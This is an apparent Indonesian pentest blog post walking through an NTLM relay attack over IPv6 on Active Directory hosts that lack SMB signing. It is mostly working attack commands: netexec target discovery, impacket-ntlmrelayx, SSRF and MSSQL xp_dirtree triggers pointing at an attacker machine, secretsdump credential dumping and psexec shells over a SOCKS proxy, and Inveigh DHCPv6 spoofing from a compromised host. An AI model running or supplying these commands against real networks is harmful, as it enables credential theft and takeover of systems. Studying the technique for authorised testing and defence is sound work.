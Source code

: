 ```yaml
---
title: NTLM Relay IPv6 Attack
author: "novran"
date: 2024-11-23 00:00:00 +0700
categories: [Active Directory Pentest]
tags: [Active Directory Pentest]
mermaid: true
image:
  path: /images/2024-11-23-ntlm-relay-attack-banner.png
  alt: NTLM Relay Attack
---
```


Ketika pengaturan `Signing` pada protokol SMB (Server Message Block) memiliki pengaturan `False` atau dinonaktifkan, maka data yang dikirim antar klien dan server tidak diverifikasi. Sehingga komputer yang menjalankan konfigurasi **SMB Signing False** akan rentan terhadap serangan **NTLM Relay**.

# Let's Do It

```bash
netexec smb <IP_SEGMENT>/24 --gen-relay-list vuln-ntlm.txt
```

![Netexec Detect All Vulnerable Hosts](/images/2024-11-23-ntlm-relay-attack-vulnerable-host.png)

## 1. Wait and See or Trigger It

```bash
sudo impacket-ntlmrelayx -tf vuln-ntlm.txt -smb2support --ipv6 -debug
```

![NTLMRelayX](/images/2024-11-23-ntlm-relay-attack-ntlmrelayx.png)

Pada dasarnya, karena ini adalah serangan Man-in-the-Middle, maka **kalian hanya perlu menunggu saja** dan berharap **ada Host yang melakukan Broadcast** melalui LLMNR/mDNS.

> Namun, jika kalian menemukan kerentanan yang bisa di-**chaining**, seperti SSRF atau mendapatkan akses MSSQL, kalian bisa langsung men-trigger-nya secara langsung, dengan cara mengakses ke mesin kalian secara langsung (menggunakan protokol SMB).

**Trigger It!**

Server-Side Request Forgery.

```
file://<ATTACKER_MACHINE>/attack
```

MSSQL Query.

```
XP_DIRTREE '\\<ATTACKER_MACHINE>\attack', 1, 1
```

**Credential Dumped!**

Jika berhasil, maka `impacket-ntlmrelayx` yang dijalankan tadi akan menghasilkan output seperti ini.

![SAM Pwnd!](/images/2024-11-23-ntlm-relay-attack-sam-pwnd.png)

### Optional: Create Relay as Proxy Connection (Socks)

```bash
sudo impacket-ntlmrelayx -tf vuln-ntlm.txt -smb2support --ipv6 -debug -socks
```

```bash
## add to /etc/proxychains4.conf
socks4 127.0.0.1 1080
```

**Dengan ini, kita bisa mengeksekusi mesin target menggunakan...**

```bash
## Remote Credential Dump
proxychains4 -q impacket-secretsdump 'domain.local/anyuser$':'wrongpass'@<TARGET_MACHINE>
```

Atau.

```bash
## Run Shell Session
proxychains4 -q impacket-psexec 'domain.local/anyuser$':'wrongpass'@<TARGET_MACHINE>
```

## 2. Spoof via Compromised Machine

Setelah membaca dari sumber [ini](https://cloud.tencent.com/developer/article/1956335), Kita juga dapat melakukannya meskipun kondisinya itu _cross-network_, dengan cara melakukan Spoofing menggunakan [Inveigh](https://github.com/Kevin-Robertson/Inveigh/releases/tag/v2.0.11) (dengan catatan, Spoof melalui mesin yang sudah _compromised_).

```powershell
.\Inveigh.exe -DHCPv6 Y -SpooferIP <ATTACKER_MACHINE>
```

Kurang lebih gambarannya akan seperti ini.

![Relay to SpoofIP](/images/2024-11-23-ntlm-relay-attack-by-spoof-ip.png)
